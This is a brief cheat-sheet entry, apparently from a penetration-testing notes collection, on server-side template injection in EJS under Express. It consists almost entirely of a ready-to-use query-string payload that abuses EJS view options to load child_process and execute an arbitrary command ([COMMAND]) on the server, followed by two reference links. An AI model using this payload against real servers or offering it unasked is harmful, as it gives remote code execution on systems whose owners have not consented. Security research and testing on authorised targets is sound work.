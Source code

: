 ```yaml
---
title: EJS SSTI (Express)
---
```


#### TL;TR

```
settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('[COMMAND]').toString();
```

#### References

- https://github.com/mde/ejs/issues/735
- https://eslam.io/posts/ejs-server-side-template-injection-rce/
